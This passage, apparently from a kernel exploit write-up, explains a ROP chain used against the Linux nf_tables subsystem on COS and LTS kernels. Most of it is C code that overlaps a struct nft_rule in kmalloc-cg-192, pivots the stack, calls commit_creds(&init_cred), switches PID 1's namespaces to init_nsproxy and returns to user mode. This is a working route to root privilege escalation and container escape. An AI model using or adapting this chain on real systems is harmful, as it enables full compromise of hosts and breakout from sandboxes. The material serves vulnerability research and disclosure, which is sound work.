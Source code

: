 ```c
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
    data[i++] = 0;
    data[i++] = _user_rip;
    data[i++] = _user_cs;
    data[i++] = _user_rflags;
    data[i++] = _user_sp;
    data[i++] = _user_ss;
}
```

For COS kernel, the ROP payload is stored in `chain->rules_gen_0[0]` allocated in `kmalloc-cg-192`.

When `eval()` is called, `RBX` points to `kmalloc-cg-192+0x0`, which is the beginning of the `nft_rule` structure. LTS kernel (v6.1.x) uses `struct nft_rule_blob`, while COS kernel (v5.15.x) uses a double pointer of `struct nft_rule`, which caused the difference. Also, it is not necessary to bypass the rcu protected section when performing ROP on the COS kernel.

```c
void rop_chain(uint64_t* data){
    int i = 0;

    // This structure overlaps the struct nft_rule
    // struct nft_rule {
    // struct list_head           list;                 /*     0    16 */
    // u64                        handle:42;            /*    16: 0  8 */
    // u64                        genmask:2;            /*    16:42  8 */
    // u64                        dlen:12;              /*    16:44  8 */
    // u64                        udata:1;              /*    16:56  8 */
    // unsigned char              data[];               /*    24     0 */

    // RBX contains the address of nft_rule
    // First two ROP chain elements are overwriting the nft_rule.list
    data[i++] = kbase + PUSH_RBX_POP_RSP_RBP;
    data[i++] = kbase + POP_R12_R13_RET;

    // nft_rule.handle == 0xffff, nft_rule.dlen > 0
    data[i++] = 0xffff | ((unsigned long) 0x8 << 44);

    // fake ops addr
    data[i++] = kmalloc_192;

    // commit_creds(&init_cred)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = kbase + INIT_CRED;
    data[i++] = kbase + COMMIT_CREDS;

    // find_task_by_vpid(1)
    data[i++] = kbase + POP_RDI_RET;
    data[i++] = 1;
    data[i++] = kbase + FIND_TASK_BY_VPID;

    // switch_task_namespaces(find_task_by_vpid(1), &init_nsproxy)
    data[i++] = kbase + MOV_RDI_RAX_RET;
    data[i++] = kbase + POP_RSI_RET;
    data[i++] = kbase + INIT_NSPROXY;
    data[i++] = kbase + SWITCH_TASK_NAMESPACES;

    data[i++] = kbase + SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE;
    data[i++] = 0;
```